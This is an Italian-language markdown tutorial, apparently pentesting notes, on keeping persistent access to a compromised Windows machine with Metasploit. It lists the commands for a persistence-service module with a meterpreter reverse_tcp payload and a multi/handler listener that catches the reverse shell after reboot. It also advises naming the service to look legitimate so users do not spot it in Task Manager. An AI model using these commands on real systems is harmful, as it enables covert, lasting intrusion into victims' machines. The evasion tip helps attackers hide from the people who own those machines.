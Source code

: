 # Mantenere la persistenza su un sistema Windows
La persistenza consiste in una serie di tecniche che degli aggressori utilizzano per mantenere l'accesso ai sistemi dopo essere stati riavvaiti, dopo che la vittima ha cambiato le credenziali o altre azioni che potrebbero interrompere l'accesso ad un attaccante. <br>

## modulo persistance service
dopo aver ottenuto l'accesso a un target tramite una sessione meterpreter, possiamo usare un modulo per poter mantenere l'accesso sul sistema anche quando viene riavviato.
```bash
use exploit/windows/local/persistance_service
set payload windows/meterpreter/reverse_tcp
set REMOTE_EXE_NAME <nome>                         # impostiamo un nome al sitema target su cui vogliamo mantenere l'accesso
set REMOTE_EXE_PATH                                # impostiamo il path dove si dovrá trovare il nostro servizio di persistenza
set SERVICE_NAME <name>
set SESSION 1
set LPORT <PORT>                                   # impostiamo una porta diversa da quella usata per meterpreter
#questa porta verrá usata per riprendere l'accesso
run
```
> impostiamo un `SERVICE_NAME` con un nome piú legittimo possibile perché gli utenti potrebbero essere in grado di rilevare il servizio di persistenza dal Task Manager.

## acesso 
dopo aver eseguito il modulo, per poter accedere al sistema usiamo un multi handler
```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp       # stesso payload usato nel modulo di persistenza
set LHOST <IP>
set LPORT <PORT>  	                              # stessa porta usasta nel modulo di persistenza
run
```
subito dopo aver eseguito il multi handler, verremo immediatamente portati in una sessione meterpreter perché sul target é in continua esecuzione il modulo di persistenza anche quando viene riavviato il sistema del target.

---
